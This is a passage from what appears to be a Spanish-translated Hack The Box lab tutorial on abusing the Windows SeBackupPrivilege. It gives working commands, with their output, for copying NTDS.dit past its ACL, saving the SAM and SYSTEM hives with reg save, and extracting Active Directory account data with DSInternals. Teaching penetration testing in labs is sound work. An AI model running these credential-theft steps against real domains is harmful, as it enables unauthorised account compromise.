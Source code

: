 A continuación, podemos usar el`Copy-FileSeBackupPrivilege`Cmdlet para evitar el ACL y copiar el NTDS.dit localmente.

  Grupos incorporados de Windows

```powershell-session
PS C:\htb> Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit

Copied 16777216 bytes
```

#### Hacer una copia de seguridad de SAM y las colmenas del registro del sistema

El privilegio también nos permite hacer una copia de seguridad de las colmenas SAM y el registro del sistema, que podemos extraer credenciales de cuentas locales fuera de línea utilizando una herramienta como Impacket's`secretsdump.py`

  Grupos incorporados de Windows

```cmd-session
C:\htb> reg save HKLM\SYSTEM SYSTEM.SAV

The operation completed successfully.


C:\htb> reg save HKLM\SAM SAM.SAV

The operation completed successfully.
```

Vale la pena señalar que si una carpeta o archivo tiene una entrada de negar explícita para nuestro usuario actual o un grupo al que pertenecen, esto nos impedirá acceder a ella, incluso si el`FILE_FLAG_BACKUP_SEMANTICS`Se especifica la bandera.

#### Extracción de credenciales de NTDS.dit

Con el NTDS.DIT ​​extraído, podemos usar una herramienta como`secretsdump.py`o el PowerShell`DSInternals`Módulo para extraer todas las credenciales de cuenta de Active Directory. Obtengamos el hash NTLM solo para el`administrator`tener en cuenta el dominio usando`DSInternals`.

  Grupos incorporados de Windows

```powershell-session
PS C:\htb> Import-Module .\DSInternals.psd1
PS C:\htb> $key = Get-BootKey -SystemHivePath .\SYSTEM
PS C:\htb> Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key

DistinguishedName: CN=Administrator,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
Sid: S-1-5-21-669053619-2741956077-1013132368-500
Guid: f28ab72b-9b16-4b52-9f63-ef4ea96de215
SamAccountName: Administrator
SamAccountType: User
UserPrincipalName:
PrimaryGroupId: 513
SidHistory:
Enabled: True
UserAccountControl: NormalAccount, PasswordNeverExpires
AdminCount: True
Deleted: False
LastLogonDate: 5/6/2021 5:40:30 PM
DisplayName:
GivenName:
Surname:
Description: Built-in account for administering the computer/domain
ServicePrincipalName:
SecurityDescriptor: DiscretionaryAclPresent, SystemAclPresent, DiscretionaryAclAutoInherited, SystemAclAutoInherited,
```